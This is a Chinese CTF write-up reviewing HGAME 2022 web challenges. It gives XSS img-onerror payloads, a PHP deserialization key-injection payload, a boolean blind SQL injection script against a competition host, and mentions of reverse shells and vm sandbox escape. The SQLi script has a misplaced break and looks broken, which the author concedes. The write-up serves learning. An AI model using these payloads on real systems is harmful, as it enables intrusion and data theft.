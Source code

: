 ```yaml
---
title: HGAME 2022 复盘 writeup
date: 2022-02-19 23:01:00
updated: 2022-02-19 23:01:00
tags: ctf
---
```

# HGAME 2022 复盘 writeup by ek1ng


## 序

四周的HGAME结束后又回去看了看没做出的一些题和官方WP还有一些师傅们的wp，发现有些题解法很多，并且有些题虽然我打出了flag但是其实不是特别了解漏洞，也是再复盘一下这些题

## WEB

### 蛛蛛...嘿嘿♥我的蛛蛛（爬虫）

这是一个爬虫题目，题目中的蛛蛛是提示爬虫，这点是当初没发现的，当初是写了这样一个脚本，但是事实上关卡数是未知的，这种自动点击的方式，点到多少还是要看运气，虽然也可以print一下，不过总之不是个很好的方法，然后也是写个爬虫再做一遍

##### 自动化点击脚本

```python
from time import sleep
from selenium import webdriver

# 打开浏览器
wd = webdriver.Chrome(r'chromedriver.exe')
wd.get('https://hgame-spider.vidar.club/915929bc23')
# 让程序停1s保证打开页面后再自动点击
sleep(1)

# 自动点击
for i in range(100):
    # 点击href值不为空的按钮
    for link in wd.find_elements_by_xpath("//*[@href]"):
        try:
            if link.get_attribute('href') != '':
                wd.get(link.get_attribute('href'))
        except:
            pass

```

##### 爬虫

```python
import requests

s = 'https://hgame-spider.vidar.club/915929bc23'


def find(x):
    res = requests.get(s + x)
    print(res.headers)
    print(s + x)
    print(res.text)
    xt = [x for x in res.text.split("\"") if 'key' in x]
    for i in xt:
        find(i)
    if "hgame" in res.text:
        print(res.text)
        return


find("")

```

### At0m的留言板（XSS）

XSS漏洞的利用点在img上，代码没有对img做过滤。

先利用img标签的onerror属性，在content中输出窗体对象的所有属性

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
Object.keys(window)">
```

![image-20220219154358680](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154358680.png)

然后发现flag的名称是F149_is_Here，在content中输出窗体对象的子属性F149_is_Here的值，拿到flag

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
F149_is_Here">
```

![image-20220219154406494](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154406494.png)

### 一本单词书（反序列化）

在如何触发反序列化这一点其实当初做题没有特别清楚，因为hint中给出了一个例题，然后依葫芦画瓢得打出了flag，后面也是忙着做后面得题就没机会思考一下，现在回过头再看一下如何通过输入特定数据触发反序列化

先来看看我当初参照hint给出例题的payload

```
{"aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa":"aaaa"}
```

encode 函数将键值型数据编码为 键|serialize(值) 的形式，如 {"a": "1","b": "s"} 编码为 a|s:1:"1";b|s:1:"s" 。

decode 函数会调用 unserialize 函数将编码后的数据恢复，具体来说就是 | 后面到下一个键名之间的内容 换被传递给 unserialize 函数。 

当键中包含 | 符号时，就可以注入任意的反序列化后的数据。

这里我们的键是`aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa`值是`aaaa`，然后encode是给值序列化，并且用|隔开，decode是把|后面的反序列化回去，然后我们传入的键是做了手脚的，后面跟了|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa，在decode反序列化的过程中，会把|后面的都反序列化，那这样的话，Evil类就被反序列化了，然后为什么还要跟个aa，是因为他是键值对嘛，那我们这里后端decode的时候会以为是aaa为键，|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象为值，然后反序列化后Evil对象触发__wakeup这个魔法方法，把flag带出来，然后为什么后面要跟个aa，不跟aa也是可以打出flag，然后跟个aa应该是和后面值aaaa配对，然后|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象和/flag的值会覆盖掉这组键值对，然后所以这个aa和aaaa是看不到的。

然后来看看出题人给的payload

```
{"a|O:4:\"Evil\":2:{s:4:\"file\";s:5:\"/flag\";s:4:\"flag\";N;};b":2}

```

也是一样的道理

### Vidar shop demo（条件竞争）

我当初做题的方法和预期解不太一样，然后也是在校外群看到很多师傅都有各种解法，于是也一一尝试一下看看

第一种解法是官网WP中给出的，连续发送对不同订单的支付请求，只扣一次余额，因为后端的逻辑是查询出用户余额，然后创建订单，最后更新用户余额，后面那个订单只要赶在余额更新前查询余额，那么就会只扣一次钱了

第二种解法是取消未支付订单，这周做法就是后端逻辑问题了，并不是条件竞争，退款未支付商品也是可以成功的

第三种解法校外群内有师傅说可以修改未支付订单号，但是余额的扣除好像是按照商品判断的，你修改成多少钱的商品就是扣多少余额，我按照他的解法是无法复现的，不知道是什么原因。。。。

第四种是爆破账号密码，唔在登录上确实有些问题，一开始出题人还没删测试账号，我直接登进去了，后来问了问后就说这种解法不太行，痛失1血（，后面题目改成了账号密码至少10位，爆破就稍微会难一些，但是还是可行的一种方法，不过爆破账号的前提也是别人打出一个余额超过10000的账号hhh，讲道理也是不太对的方法

### LoginMe （sql布尔盲注）

参考了其他选手的python脚本，我当初是用的sqlmap出的，因为没加什么过滤好像，sqlmap可以直接出，看了看其他人的wp很多也是sqlmap的，然后但是我按照别人的wp的脚本好像无法复现，不知道为啥，反正布尔盲注确实不太懂，针对这个知识学了一下

````python
```
import json
import requests
host = '2aaa006c94.login.summ3r.top:60067'
md5 = ''
data = {"username": "test') and substr(password,1,1)='a' --+", "password": "test"}
for i in range(1,33):
    for j in "0123456789abcdefABCDEF":
        data["username"] = "admin') and substr(password,{},1)='{}' --+".format(i,j)
        r = requests.post('http://' + host + '/login', json=data).text
        info = json.loads(r)['msg']
        print(info)
        if info == 'success!':
            md5 += j
        print(md5)
        break
````



首先是什么是布尔盲注，就是通过构造逻辑判断来得到信息，因为解码只返回true or false，没有直接回显信息，没办法直接union注入爆库名表名字段名这样。

这里就是知道账号是admin，所以就是爆密码，然后一位一位去跑，把这个密码爆出了，大概是这样的流程，然后如果说页面不反回true or false的题型就是需要时间盲注了，需要让逻辑表达式正确时延时返回，这样就可以做到true or false的判断

### SecurityCenter（SSTI）

这个题是我按照预期解做出的，然后看到别人的wp中有人是弹shell然后连接服务器读取的文件，也尝试一下看看

好吧环境好像关了，那只能看看wp学习一下了

主要就是没过滤eval，所以可以想办法弹shell

### Markdown Online（vm沙箱逃逸）

被绕登录的trick卡住了，真是眩晕

传入数组对象，16个元素的数组或者json再套一层，让.length判断正确但是touppercase报错就可以绕过登录

后面就是markdown中没有对html标签过滤，所以说可以传script标签，然后找vm沙箱逃逸的payload，绕过waf过滤就可以get flag了，vm沙箱逃逸主要是因为vm并不是完全安全的，用户输入直接传入就会造成沙箱逃逸，然后实现RCE，可以cat /flag



